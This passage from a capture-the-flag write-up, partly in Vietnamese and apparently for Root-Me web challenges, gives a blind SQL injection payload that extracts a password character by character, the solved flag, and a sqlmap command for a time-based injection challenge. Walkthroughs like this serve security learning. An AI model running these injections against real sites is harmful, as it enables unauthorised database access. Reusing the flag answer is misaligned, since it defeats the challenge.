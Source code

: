     - Length(password) == 8

  - Tìm password:

    - Thử payload sau:

    ```
    username=admin%27+AND+substr((select+password+from+sqlite\_master),1,1)='a'--+-&password=admin%27--+-
    ```

    - Result:

    ![1](img/63/5.png)

```
Flag: e2azO93i
```

# 64. SQL injection - Time based

- Thử load url vào sqlmap:

```js
sqlmap -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --time-sec=10 --current-db
```
